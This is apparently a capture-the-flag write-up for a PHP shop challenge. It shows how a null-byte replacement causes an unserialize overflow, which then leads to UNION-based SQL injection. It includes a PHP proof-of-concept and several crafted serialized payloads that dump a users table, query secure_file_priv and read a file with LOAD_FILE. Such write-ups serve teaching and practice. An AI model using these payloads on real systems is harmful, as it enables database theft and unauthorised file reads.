








### FSHOP


Taking a look at the source code you can notice some interesting stuff.

The process  when bying an object is like below:

Once you choose the product that exists in the database ,a new order is created  and stored in **$prouductOBJ ** then serialized and that serialized object gets inserted in the table **user_items**.

But since SQL can't save NULL bytes and since we do have protected attributes in Order class  ; when trying to store data into the DB there will be an interesting replace of **‘\x00\x2a\x00’**(chr(0).*.chr(0))with **'\0\0\0’**(the ‘\x00\x2a\x00’ is a prefix added to all the protected variables ).





From another side, in **items.php** ,while trying access your products  which get extracted  from the

database ,the**'\0\0\0’ **will be replaced with **‘\x00\x2a\x00’ **(null*null)in order to reconstruct the original order which is exactly where the overflow comes from .The **product_id **is later extracted and a vulnerable SQL query gets executed in order to return the exact product from **products** table.





So basically here the goal is the exploit the unserialize overflow in order to construct our own object which would allow us to perform a SQL injection and dig more into the database.

#### Exploit:

```php
<?php 

class Order
{

    protected $_quantity;
    protected $_size;
    public $_product_id;
    public function __construct($product_id,$quantity,$size){
    $this->_product_id=$product_id;
    $this->_quantity=$quantity;
    $this->_size=$size;	
    }

}

$quant="1";
$siz="S";
$order=new Order("1",$quant,$siz);
$ser=serialize($order);
$res_ser=str_replace(chr(0)."*".chr(0), '\0\0\0', $ser);

$to_unser=str_replace( '\0\0\0', chr(0)."*".chr(0),$res_ser);
echo "serialized object\n ";
echo $to_unser."\n\n\n";
echo "after deserialization\n ";
$unser_obj=unserialize($to_unser);
var_dump($unser_obj);
```

##### Results:




**“Quantity “will cause the ‘overflow’ and “size”will contain the last part of the exploit.**


First of all we need to make some calculations to get exactly how many \0\0\0 we need to add to $quant.

The distance from the end of the quantity  value and the beginning of the size value is 23 ( don’t forget that *  is indeed chr(0)."*".chr(0)). But  since we need to add a multiple of 3 ,we have to make it to 24 . so we need to add 16 * “\0\0\0”.



which means,

```php
$quant='\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0';
```

the rest of the paload will be held in $siz.

```php
$siz='a";s:8:"\0\0\0_size";s:5:"12345";s:11:"_product_id";s:60:"50\' union select 1,2,3,4,5,6;-- -';
```

Notice that the length of product_id 's value is 60 which is the length of your payload for the product_id value **50' union select 1,2,3,4,5,6;-- -** plus the length of the remaining part (the real product_id)of the serialized object that will be added :**";s:11:"_product_id";s:1:"1** .

Make sure to always remember to add  27 to the length of your custom product_id so that when the unserialization happens it will keep reading until hitting 60 chars and add them to the product_id .

This added part won't affect the SQL statement due to the comments (-- -).



Now using Burp intercept the request and change the value of quantity & size and don’t forget to URL encode them ( and that little “\ “remove it it’ s just for php code :p).

```php
$siz=’a";s:8:"\0\0\0_size";s:5:"12345";s:11:"_product_id";s:61:"50' union select * from users limit 1 offset 0;-- -’;
```

You'll get the **the flag is not in the database** !

It won't be hidden behind closed doors , there must be a file for the flag .

Let’s find out from which directories we can load files.

```php
$siz='";s:8:"\0\0\0_size";s:5:"12345";s:11:"_product_id";s:156:"50\' union select 1,2,VARIABLE_VALUE,4,5,6,7 from performance_schema.session_variables where VARIABLE_NAME="secure_file_priv";-- -';
```




You ll get **/var/lib/Fword/mysql-files/You_got_it/**

The last step is the read flag.php

```php
$siz='";s:8:"\0\0\0_size";s:5:"12345";s:11:"_product_id";s:103:"50\' union select 1,2,LOAD_FILE("/var/lib/mysql-files/flag.txt"),4,5,6,7;-- -';
```





Et voilà 


